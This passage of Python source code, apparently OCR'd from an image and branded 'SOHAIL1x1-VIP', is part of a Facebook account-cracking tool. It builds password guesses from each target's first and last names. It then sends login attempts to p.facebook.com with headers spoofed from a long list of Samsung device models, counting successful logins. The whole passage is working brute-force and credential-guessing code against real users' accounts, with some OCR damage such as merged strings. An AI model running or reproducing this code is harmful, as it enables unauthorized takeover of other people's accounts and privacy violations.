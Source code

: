                                         break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
def ffb4(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1-VIP] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')